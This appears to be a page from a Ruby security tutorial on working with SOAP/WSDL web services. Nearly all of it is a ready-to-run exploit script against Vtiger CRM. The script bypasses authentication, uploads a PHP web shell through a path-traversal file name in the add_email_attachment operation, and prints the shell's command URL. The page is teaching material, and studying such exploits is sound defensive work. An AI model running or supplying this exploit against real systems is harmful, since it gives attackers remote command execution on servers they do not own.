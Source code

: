 # Interacting with Web Services

### SOAP - WSDL
Generally speaking, dealing with SOAP means dealing with XMLs that which WSDL describes how to use that SOAP. Ruby has really elegant way to do so and let's to get our hand dirty with an exploit

```
gem install savon httpclient
```

This is a working exploit for Vtiger CRM SOAP from Auth-bypass to Shell upload 
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
# gem install savon httpclient
#
require 'savon'

if ARGV.size < 1
  puts "[+] ruby #{__FILE__} [WSDL URL]"
  exit 0
else
  url = ARGV[0]
end

shell_data, shell_name = "<?php system($_GET['cmd']); ?>", "shell-#{rand(100)}.php"

# Start client 
client = Savon::Client.new(wsdl: url)

# List all avialable operations 
puts "[*] List all available operations "
puts client.operations

puts "\n\n[*] Interact with :add_email_attachment operation"
response = client.call( :add_email_attachment, 
                        message: {
                                     emailid:  rand(100),
                                     filedata: [shell_data].pack("m0"),
                                     filename: "../../../../../../#{shell_name}",
                                     filesize: shell_data.size,
                                     filetype: "php",
                                     username: "KING", 
                                     sessionid: nil
                                }
                      )
puts "[+] PHP Shell on:  http://#{URI.parse(url).host}/vtigercrm/soap/#{shell_name}?cmd=id"

```

More about [Savon][1]










<br><br><br>
---
[1]: http://savonrb.com/

